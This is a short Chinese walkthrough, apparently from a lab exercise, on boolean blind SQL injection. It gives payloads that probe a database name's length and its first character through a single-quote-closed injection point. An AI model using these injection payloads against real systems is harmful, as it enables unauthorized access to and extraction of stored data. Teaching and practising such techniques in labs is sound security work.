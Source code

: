 直接开始布尔盲注，先构建payload。确定字符类型注入，单引号闭合

> <img src="./IMG/A(V4SFQR]QVQ(KZCE8XF7~L.png">

判断数据库名长度是否小于9

```sql
1' and length((select database()))<9 #
```

> <img src="./IMG/OSSH7F4WVQCG~F8LNB{FOPR.png">

数据库名第一个字符是否大于小写a

```sql
1' and ascii(substr((select database()),1,1))>'a' #
```

> <img src="./IMG/VE~115NMU84AZ30(CX$C5OH.png">

